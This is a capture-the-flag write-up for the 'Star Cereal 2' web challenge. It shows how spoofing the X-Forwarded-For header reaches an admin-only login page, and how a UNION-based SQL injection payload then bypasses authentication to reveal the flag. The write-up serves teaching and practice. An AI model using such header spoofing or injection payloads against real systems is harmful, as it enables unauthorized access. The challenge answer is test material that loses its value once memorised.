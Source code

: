# Star Cereal 2 - Solution

**Author**: zeyu2001

**Category**: Web

In `index.php`, notice the following comment

```html
<!--
Star Cereal page by zeyu2001

TODO:
	1) URGENT - fix login vulnerability by disallowing external logins (done)
	2) Integrate admin console currently hosted at http://172.16.2.155
-->
```

Point 1) is referring to the previous challenge. Point 2) is interesting.

If we go to `login.php`, we get a 403 Forbidden Page:

```html
<h1>Forbidden</h1>
<p>Only admins allowed to login.</p>
```

If we do a scan (e.g. using Burp Suite Intruder) for the 172.16.2.0/24 subnet with the `X-Forwarded-For` header, we would find that if we set:

```http
X-Forwarded-For: 172.16.2.24
```

then we would see the login page.

```html
➜  ~ curl http://localhost:55043/login.php -H 'X-Forwarded-For: 172.16.2.24'

...

<form action="/login.php" method="post">
	<div class="form-group">
		<label for="email">Email address</label>
		<input type="email" class="form-control" id="email" name="email" placeholder="Enter email">
	</div>
	<div class="form-group">
		<label for="pass">Password</label>
		<input type="pass" class="form-control" id="pass" name="pass" placeholder="Enter password">
	</div>
	<button type="submit" class="btn btn-primary">Submit</button>
</form>
```

Then, exploit SQL injection to get the flag.

```http
POST /login.php HTTP/1.1
Host: localhost:55043
X-Forwarded-For: 172.16.2.24

...

Content-Type: application/x-www-form-urlencoded
Content-Length: 51

email=test&pass=test' UNION SELECT 'test', 'test';#
```

The flag:

```
Welcome back, admin! Your flag is STC{w0w_you'r3_r3lly_a_l33t_h4x0r_bc1d4611be52117c9a8bb99bf572d6a7}
```
